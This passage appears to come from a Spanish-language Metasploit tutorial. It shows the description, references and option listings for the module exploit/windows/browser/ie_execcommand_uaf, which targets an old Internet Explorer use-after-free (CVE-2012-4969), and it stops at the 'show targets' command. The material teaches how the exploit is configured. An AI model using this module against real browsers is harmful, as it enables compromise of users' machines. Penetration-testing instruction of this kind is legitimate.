 ```
Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  OBFUSCATE  false            no        Enable JavaScript obfuscation
  SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL for incoming connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                     no        The URI to use for this exploit (default is random)

Payload information:

Description:
  This module exploits a vulnerability found in Microsoft Internet
  Explorer (MSIE). When rendering an HTML page, the CMshtmlEd object
  gets deleted in an unexpected manner, but the same memory is reused
  again later in the CMshtmlEd::Exec() function, leading to a
  use-after-free condition. Please note that this vulnerability has
  been exploited since Sep 14, 2012. Also, note that
  presently, this module has some target dependencies for the ROP
  chain to be valid. For WinXP SP3 with IE8, msvcrt must be present
  (as it is by default). For Vista or Win7 with IE8, or Win7 with IE9,
  JRE 1.6.x or below must be installed (which is often the case).

References:
  https://cvedetails.com/cve/CVE-2012-4969/
  OSVDB (85532)
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2012/MS12-063
  http://technet.microsoft.com/en-us/security/advisory/2757760
  http://eromang.zataz.com/2012/09/16/zero-day-season-is-really-not-over-yet/

```

Mirando la descripción, podemos tener una idea general de lo que este exploit logrará para nosotros. Teniendo esto en cuenta, luego querríamos verificar qué versiones son vulnerables a esta exploit.

Objetivos

```
msf6 exploit(windows/browser/ie_execcommand_uaf) > options

Module options (exploit/windows/browser/ie_execcommand_uaf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   OBFUSCATE  false            no        Enable JavaScript obfuscation
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

```